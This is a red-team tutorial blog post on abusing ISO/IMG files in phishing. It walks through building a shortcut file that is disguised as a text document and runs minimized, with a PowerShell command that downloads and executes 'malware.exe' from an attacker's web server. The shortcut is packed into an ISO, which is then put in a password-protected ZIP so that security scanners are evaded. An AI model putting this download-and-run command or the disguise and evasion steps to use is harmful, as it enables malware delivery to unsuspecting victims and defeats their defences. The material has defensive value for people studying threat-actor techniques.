 ```yaml
---
title: Abusing ISO/IMG Files
author: Z0ldyck
date: 2022-08-17 18:32:00 -0500
categories: [Blogging, Tutorial]
tags: [REDTEAM]
---
```


السلام عليكم ورحمة الله وبركاته

# introduction

Lately, I have been developing my custom tools and implementing/recreating some of the known techniques used by threat actors. Well, this post is not going to be focused on any specific tool but will showcase one technique that I enjoyed reimplementing and some advice for people who are looking to advance their work specifically for Red Teamers (It could help blue ppl, but I would assume they already do that). I think one of the biggest things that most red teamers (to be specific the ppl in my circle) are missing or not giving some time for is reading reports related to Threat Actors' new techniques. Most of these reports at the first sight might feel that the target audience is mostly Threat Hunters, but in reality, it will help both sides. One side can discover/identify these threats and the other can use them or even advance/change them to something even better, whatever the case is. My point is It doesn't matter what group you are in, reading them will 100% benefit you. I will suggest looking into reports related to Threat Actors from Mandiant/CrowdStrike. There is more, but these are faviourt ones


In this post, I will be going over one of the techniques that I see many threat actors using to compromise victims' machines. This technique is very well known for many blue teamers. You can find below a full map of the execution:

![](../../images/isoimg/1.png)

The attack is straightforward, we will be sending phishing emails that contain or provide a link to download a ZIP file. After decompressing the ZIP file the user would find an IMG/ISO file. A double click from the user will mount a disk containing an LNK file that will download our malicious payload and run it.

I will skip the email and the ZIP file part as these are not the main focus of this post (There is a ton of ways to deliver your files). First, create your malicious payload and host it on a web server, you can use your C2 web server or anything similar. Moving on to creating our LNK file, there is a lot of ways to create one. You can even use powershell/C# to create it, but we will just use the simple method cause why not :)


## LNK FILE

Create a shortcut of any app you have first, then open file properties. Check the image below:

![](../../images/isoimg/2.png)

Here is what you need to consider:

- Target → This is where you will put your command. You can use something like the command below to download and run your malicious payload:
```
powershell wget http://<your_webserver>/malware.exe -O C:\somewhere; malware.exe
```

(Note: Don’t use this command to deliver your payloads, it is not the best way and you will get caught immediately. This is just an example lol)

- Run → Set it to Minimized (Just trust me :p )

- File icon → I think you need to consider that. In the Shortcut section click on “Change Icon” and browse to “C:\Windows\System32\shell32.dll”. You will have a bunch of icons to choose from. I went with the text file icon.

## ISO FILE

This should be enough for the LNK file. Now let’s create the ISO file. I will be using AnyBurn to do this process, but you can use whatever you prefer. You might be wondering why would we go with an ISO/IMG file, the answer is simple users will double click it and a new CD Drive will be attached, and in some cases, it will bypass some security solutions. After creating the ISO you can just save it into an archive and somehow deliver it with some magic to the victim :p

In AnyBurn select “Create image file from files/folders”

![](../../images/isoimg/3.png)

In the new window add your folder/file and click on “Next”

![](../../images/isoimg/4.png)

Next, you will choose where to save your ISO file. By clicking “Create Now” your file will be created and saved in that destination.

![](../../images/isoimg/5.png)

![](../../images/isoimg/6.png)

## DEMO

Now all you need to do is save it in a ZIP file because there is a tone of solutions that started triggering ISO/IMG files. I would also suggest making a ZIP file protected with a password so these solutions wouldn’t be able to scan them (If that’s wrong correct me please!). Here is a demo of the whole process:

![](../../images/isoimg/dev.mp4)

<html> 
<body> 
<video width="849" controls>
  <source src="../../images/isoimg/dev.mp4" type="video/mp4">
</video>
</body> 
</html>

I hope you enjoyed reading this post, I will be sharing more stuff (I don’t know why I am doing that at the end of my break lol)
